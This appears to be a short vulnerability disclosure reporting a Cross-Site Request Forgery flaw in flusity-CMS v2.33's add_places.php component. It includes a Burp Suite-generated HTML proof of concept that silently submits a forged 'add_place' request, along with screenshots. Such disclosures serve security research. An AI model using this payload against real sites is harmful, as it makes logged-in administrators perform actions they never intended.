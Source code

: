 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/add_places.php

![1](https://github.com/Icycu123/cms/assets/89123126/859227c9-573b-4efe-ac83-965473d2be23)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/add_places.php" method="POST">
      <input type="hidden" name="action" value="add&#95;place" />
      <input type="hidden" name="place&#95;name" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/Icycu123/cms/assets/89123126/85130c9f-a6ad-449e-b5ab-5afd1c6d574a)


Successed

![3](https://github.com/Icycu123/cms/assets/89123126/e79a4612-d22b-4614-aac4-1facf45f05ed)
